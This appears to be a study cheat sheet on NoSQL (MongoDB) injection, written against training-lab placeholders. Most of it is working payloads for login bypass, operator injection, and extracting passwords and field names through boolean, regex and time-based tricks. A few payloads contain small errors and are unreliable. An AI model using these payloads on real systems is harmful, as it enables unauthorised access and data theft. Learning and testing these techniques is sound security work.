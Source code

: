 # NoSQL Injections
There are two main types of NoSQL injections:
* Syntax injection (similar to sqli methodology)
* Operator injection
Most popular NoSQL DB is mongo  

## Example
User's query:
```
https://insecure-website.com/product/lookup?category=fizzy
```
Json query to mongo's collection:
```
this.category == 'fizzy'
```
Example of fuzz string (to detect any error):
```
'"`{
;$Foo}
$Foo \xYZ
```
And URL-encoded request:
```
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

Json adaptation of paylaod (to inject in parameters of request, not in URL):
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```
Simple test is applying `'` and `\'`, In first step, request must be broken and when we escape the quote, request must be valid.  

### Confirming conditional behaviour
Next we can test for boolean-based attack:
```
' && 0 && 'x
' && 1 && 'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
If responses differ, we are able to influence boolean logic of application.  
### Overriding existing conditions
We can send payload similar to `' OR 1=1` in SQLi:
```
'||1||'
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
Result in query:
```
this.category == 'fizzy'||'1'=='1'
```
Also we can add null byte at the end of payload (same as -- in sqli)
## Operator injection
* $where - document that satisfies JS expression
* $ne - not equal
* $in - all values in array
* $regex - matches regex
In JSON queries we can submit operators as nested queries:
```
{"username":{"$ne":"invalid"}}
```
For URL-based inputs we can insert queries only in URL parameters:
```
username[$ne]=invalid
```
If it doesn't work, try next:
* Change GET to POST
* Content-type to application/json
* Move url request into JSON message and insert operators there

If request doesn't seem to contain any operators, we can try to inject them by ourselves:
```
{"username":"wiener","password":"peter", "$where":"0"} (false)
{"username":"wiener","password":"peter", "$where":"1"} (true)
```

### Bypassing authentication:
```
{"username":{"$ne":"invalid"},"password":{"peter"}}
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

## Exfiltrating data 
```
admin' && this.password[0] == 'a' || 'a'=='b
OR
admin' && this.password.match(/\d/) || 'a'=='b
```
Last query checks for digits in password
Check for password length:
```
administrator' && this.password.length < 30 || 'a' == 'b'
```

## Identifying field names
First we need to detect responses for existing and non-existing fields. For example, if we know that username field is present:
```
admin' && this.username!=' 
admin' && this.foo!='
```
Next we can try dictionary attack to check responses and see what fields exist and what don't.  
Also we can use operator injection to extract field names character by character.  
To extract field names sign by sign we can use `keys()` JS method:
```
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```
In this payload `(this)[0]` - is a number of field (id, username etc), {0} - is a character position and a - is a character we are testing.  

### Exfiltrating data using operators
If we can't use JS syntax, we can try exfiltrate fields with `$regex`:
```
Check if method is supported:
{"username":"admin","password":{"$regex":"^.*"}}
Check if password starts from 'a':
{"username":"admin","password":{"$regex":"^a*"}}
```

## Time-based injection
```
{"$where": "sleep(5000)"}
```
### Exfiltrating data
```
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```